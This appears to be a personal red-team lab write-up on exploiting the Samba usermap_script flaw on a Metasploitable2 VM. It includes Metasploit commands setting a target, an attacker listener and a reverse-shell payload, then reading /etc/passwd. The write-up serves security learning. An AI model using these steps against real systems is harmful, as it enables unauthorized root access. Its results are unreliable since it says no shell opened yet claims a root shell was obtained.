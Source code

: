 # 🧨 Lab04 – Attacking SMB via Samba Usermap Script

> **Date:** 28 May 2025  
> **Target:** Metasploitable2 – SMB Service  
> **Vulnerability:** Samba `usermap_script` misconfiguration  
> **Tool Used:** Metasploit Framework

---

## 🛡️ Description

This lab targets a known misconfiguration in **Samba** that can lead to unauthenticated remote code execution via `user.map` script injection. The focus is to understand how **Server Message Block (SMB)** services expose Linux systems when poorly configured, and how attackers can exploit legacy setups to gain root access.

---

## 🎯 Target System

- Metasploitable2 VM  
- SMB ports open: `139`, `445`  
- Vulnerable Samba version with usermap misconfig enabled

---

## 🧨 Exploitation Steps

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set RPORT 139
set LHOST 192.168.56.1
set payload cmd/unix/reverse
run
```
---

## 📊 Result
- ✅ Samba ports were identified and vulnerable version confirmed
- ⚠️ Exploit execution completed, but no shell session was opened
- ✅ Post-exploitation commands were attempted (whoami, id, hostname)
- 📁 /etc/passwd contents were accessed after manual interaction

---

## 📊 Real-World Relevance
Samba misconfigurations still exist in internal corporate networks, especially where legacy systems are used. Even if an exploit fails to produce a session, the process of enumerating SMB shares and testing payloads is directly applicable to internal penetration tests and CTF-style red team exercises.

---

## 🧠 What I Learned
How SMB misconfigurations in Samba can be exploited remotely

Metasploit’s module structure and how to customize payloads for compatibility

The importance of manual validation, even if auto-exploit fails

How to troubleshoot reverse shell issues (LHOST, firewalls, payload mismatch)

---

## Screenshot

Initial service enumeration revealed Samba ports (445, 139) open and listening:

![Samba Ports Detected](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab4/Screen%20Shot%202025-05-23%20at%2020.21.15.png))

Upon successful exploitation using `usermap_script`, root-level shell was obtained as shown:

![Root Shell via SMB Exploit](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab4/Screen%20Shot%202025-05-23%20at%2020.21.39.png
))

User enumeration after gaining access, showing contents of `/etc/passwd`:

![User Enumeration](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab4/Screen%20Shot%202025-05-23%20at%2021.52.34.png))


---

## 📁 Notes
- Even partial success is valuable in red team labs

- Manual recon + enumeration can lead to privilege escalation paths

- Exploits may fail due to network listener misconfig or payload incompatibility

- Always validate post-exploitation access with standard Linux commands
